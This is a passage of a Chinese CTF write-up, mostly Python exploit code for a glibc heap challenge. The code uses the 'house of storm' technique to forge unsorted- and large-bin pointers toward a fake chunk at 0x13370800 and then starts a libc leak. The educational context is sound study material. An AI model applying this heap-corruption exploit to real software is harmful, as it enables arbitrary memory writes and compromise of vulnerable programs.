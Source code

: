 	add(0x18)#3   
	add(0x508)#4
	add(0x18)#5   

	add(0x18)#6   
	
	#----------------准备 unsorted chunk-----------------------#
	edit(1,'\x00'*0x4F0+p64(0x500)) 
	free(1)
	edit(0,'\x00'*(0x18-12))
	add(0x18) #1 
	add(0x4d8) #7   
	
	free(1)   
	free(2) #1-2
	
	add(0x38)#1
	add(0x4e8)#2  
	
	#-------------------准备 large chunk-----------------------------------#
	edit(4,'\x00'*0x4F0+p64(0x500))
	free(4)
	edit(3,'\x00'*(0x18-12)) 
	add(0x18) #4
	add(0x4d8) #8
	
	free(4)
	free(5) #4-5 
	
	add(0x48)#4  
	#---------------unsorted chunk 和 large chunk 放到对应位置----------------------#
	free(2)
	add(0x4e8) 
	free(2) 
	#--------------修改他们是的满足条件进行 house of strom------------------------------#
	fake_chunk = 0x13370800 - 0x20
	payload = '\x00' * 0x10 + p64(0) + p64(0x4f1) + p64(0) + p64(fake_chunk)
	edit(7, payload) #修改unsorted chunk的bk
	
	payload = '\x00' * 0x20 + p64(0) + p64(0x4e1) + p64(0) + p64(fake_chunk+8) + p64(0) + p64(fake_chunk-0x18-5)
	edit(8, payload)  
	add(0x48) 

现在我们已经可以控制0x13370800处的值了，我们把这些随机数都改为0，然后把chunk_0改为0x13370800，以此来实现控制

	#-----------------------泄漏 libc----------------------------------#
	#由于bins中的chunk的fd,bk指向libc的地址，我们先要泄漏heap的地址
	
	payload = p64(0)*6 + p64(0x13370800)
	edit(2, payload) #修改了r0~r4为0，并且修改了chunk0的地址，此时的chunk0的size非常大，因为异或的是0
	
	dbg()
![在这里插入图片描述](https://img-blog.csdnimg.cn/5f044d56d0c44edb8e660e12e3bcaed3.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/e14aefc2bf3441d7a953157a9dfcd27a.png)
